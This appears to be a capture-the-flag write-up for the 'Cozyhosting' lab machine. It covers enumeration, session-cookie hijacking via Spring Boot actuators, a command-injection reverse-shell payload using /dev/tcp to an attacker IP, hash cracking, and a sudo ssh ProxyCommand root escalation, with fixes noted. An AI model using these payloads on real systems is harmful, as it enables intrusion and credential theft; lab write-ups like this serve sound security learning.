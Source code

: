 # Cozyhosting Machine

## Service Enumeration

Once the open ports are known, the services enumeration process begins. In order to do this, Nmap tool is used and, specifically the following command: “sudo nmap -sS -p22,80 -sV -O -sC cozyhosting.htb”
 
![image](images/Cozyhosting/Imagen2.png)

### HTTP Enumeration

The first step taken was to scan using gobuster in order to find directories and other func-tions in the service. The command used was ```sudo gobuster dir -u http://cozyhosting.htb/ -w /usr/share/wfuzz/wordlist/general/common.txt”```.
 
![image](images/Cozyhosting/Imagen3.png)

First thing to do is to manually check the findings. 

When accessing “admin” page, a redirection to “login” is found.
 
![image](images/Cozyhosting/Imagen4.png)

The “error” page gives more information as let us guess the type of application that is run-ning in the background. This is because “Whitelabel Error Page” is the default error page for Spring Boot applications.
 
![image](images/Cozyhosting/Imagen5.png)

Taking the last into account, a new directory scan will be made but this time using a Spring Boot dictionary (obtained form https://github.com/danielmiessler/SecLists/tree/master/Discovery/Web-Content/spring-boot.txt). 
Command used is ```sudo gobuster dir -u http://cozyhosting.htb/ -w /home/corso/Desktop/wordlists/SecLists-master/Discovery/Web-Content/spring-boot.txt```.

 
![image](images/Cozyhosting/Imagen6.png)

As shown in the previous picture, Spring Boot actuators are found. Sessions and Mappings actuators stand out because they give very useful information.
In ```/actuator/mappings``` we can see the different endpoints available in the application. Among them, ```/executessh``` seems to be interesting.
 
![image](images/Cozyhosting/Imagen7.png)

Sessions’ actuator shows what seems to be a session cookie for the user Kanderson. If user “Kanderson” has rights to access the Admin page, it may be possible to use his session cookie and access on his behalf. 

 
![image](images/Cozyhosting/Imagen8.png)
 
![image](images/Cozyhosting/Imagen9.png)

Once the cookie is set, it is possible to access the Admin Dashboard.  

![image](images/Cozyhosting/Imagen10.png)

Looking through the Admin dashboard, there is an interesting functionality that lets the user configure an arbitrary host for automatic patching through SSH. As expected, it uses the ```/executessh``` endopoint that stood out during the ```/actuator/mappings``` enumeration.
 
![image](images/Cozyhosting/Imagen11.png)

Inserting two random values as ```hostname=localhost&username=kanderson``` generates a POST request to ```/executessh``` that results in a “Host key verification failed” error.
 
![image](images/Cozyhosting/Imagen12.png)
 
![image](images/Cozyhosting/Imagen13.png)

The way the errors are thrown are suspicious as it seems to be the output of a shell com-mand. In order to generate more errors, I inserted some special characters to see if it is possible to inject some commands.

The error shown after inserting ```hostname=localhost&username=hello;id;```, was a clear indication that host may be vulnerable to command injection.
 
![image](images/Cozyhosting/Imagen14.png)
 
![image](images/Cozyhosting/Imagen15.png)

The fact that the error says ```@localhost: command not found``` let us know that the command executed on the backend is something like ```ssh [some_options] <username>@<hostname>``` and if “;” is inserted on the username parameter the ssh command will fail as it will not correctly receive the hostname parameter (because the server will consider everything after “;” as a new command).

It was also confirmed that front end did not allow blank spaces on the username parameter.
 
![image](images/Cozyhosting/Imagen16.png)

After some trials, it was found that appending ```%0A<command_to_execute_without_spaces>;``` let us execute commands on the server.
In order to check the execution, a 404 HTTP GET request will be performed against a web server running on my machine.
 
![image](images/Cozyhosting/Imagen17.png)
 
![image](images/Cozyhosting/Imagen18.png)

## Initial Access – Command Injection

**Vulnerability Explanation**: misconfigured Spring Boot application that exposes other users’ session cookies has a insecure function “/executessh” where it is possible to inject com-mands to open a reverse shell.
**Vulnerability Fix**: securely store session cookies and correctly sanitize user input on “/executessh” function.
**Severity**: Critical
**Steps to reproduce the attack**: 

•	Access “/actuator/sessions” and grab session cookie for user “kanderson”.

•	Setup a listener on port 444.

•	Using that cookie access the Admin dashboard and insert on username parameter: kanderson@%0A(sh)0>/dev/tcp/10.10.14.10/444;a
 
![image](images/Cozyhosting/Imagen19.png)

•	Insert “exec >&0” on the recently opened shell.
 
![image](images/Cozyhosting/Imagen20.png)

## Post Exploitation.

After gaining initial access, a veri interesting file is  found called “cloudhosting-0.0.1.jar”
 
![image](images/Cozyhosting/Imagen21.png)

After downloading the file and manually inspecting it, some credentials for PostgreQL data-base are found inside a file called “application.properties”.
 
![image](images/Cozyhosting/Imagen22.png)

This password let me access the postgresql database using the command ```psql -U post-gres -h localhost```.
 
![image](images/Cozyhosting/Imagen23.png)

More credentials are found inside “Users” table.
 
![image](images/Cozyhosting/Imagen24.png)

Using hashcat and rockyou dictionary it is possible to crack the hash for user Admin.
 
![image](images/Cozyhosting/Imagen25.png)

Once this password is recovered, it is possible to access the target machine through SSH as the password was reused and is the same password for user local user josh.
 
![image](images/Cozyhosting/Imagen26.png)

## Privilege Escalation – Insecure Sudo Permissions

**Vulnerability Explanation**: After establishing a foothold on target, Cosme noticed that the user has permissions to execute “ssh *” as a super user. This configuration let a user with-out privileges spawn a root shell.
**Vulnerability Fix**: avoid using wildcards when establishing the sudo permissions for a user.
**Severity**: Critical
**Steps to reproduce the attack**: execute “sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x”
**Screenshot**:
 
![image](images/Cozyhosting/Imagen27.png)

## Post-Exploitation

System Proof Screenshot:

![image](images/Cozyhosting/Imagen28.png)
